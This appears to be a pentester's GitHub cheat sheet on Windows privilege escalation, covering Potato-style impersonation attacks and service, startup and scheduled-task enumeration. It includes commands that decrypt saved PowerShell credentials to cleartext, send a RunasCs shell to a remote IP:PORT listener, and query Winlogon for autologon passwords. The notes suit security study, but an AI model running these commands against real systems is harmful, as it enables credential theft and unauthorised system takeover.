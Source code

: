![image](https://github.com/user-attachments/assets/55b7ea1b-ab2b-4343-afb9-f2a187c4661c)
SeImpersonate and SeAssignPrimaryToken - JuicyPotato Escalation
PrintSpoofer and RoguePotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, PrintSpoofer and RoguePotato can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access. This blog post goes in-depth on the PrintSpoofer tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.


https://github.com/geeksniper/windows-privilege-escalation?tab=readme-ov-file#eop---impersonation-privileges

It is also worth searching for weak service ACLs in the Windows Registry. We can do this using accesschk.
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
Modifiable Registry Autorun Binary
Check Startup Programs
We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

*** general line of tought:*** 
1. what are the user privileges?
2. what services are running ? (how to enumerate services with usefull info)
   dll injfection
   unqoted service path
   overwrite service binary
   
4. is it install elevated
5. what are the schudled tasks.?
   writable executable files ?
   dependency writable ?
7. sensitive files readable ? 



# Techniques

## Password hunting (PsSession credentials restore) 
**Intresting technique: - Decrypt Credentials on the machine they where created**
<img width="738" height="201" alt="image" src="https://github.com/user-attachments/assets/80a68fe7-9345-46f8-8527-3bcbaafffb2e" />

Use: 

```
$cred = Import-CliXml -Path connection.xml 
```

To export the credential obejct and 

```
$cred.GetNetworkCredential().Password 
```
to read the full clear text password 

## Running in contecst of another user with RunCs.exe 

```
.\RunasCs.exe user pass cmd.exe -r IP:PORT
```

## SeTcbPrivilege - https://blog.palantir.com/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e?gi=90b131f043b3 

Using tcbpriv is done trough a poc - https://github.com/b4lisong/SeTcbPrivilege-Abuse 

Or use Full powers https://github.com/itm4n/FullPowers to Potato stile attacks. 

### Check for autologon

```reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"```

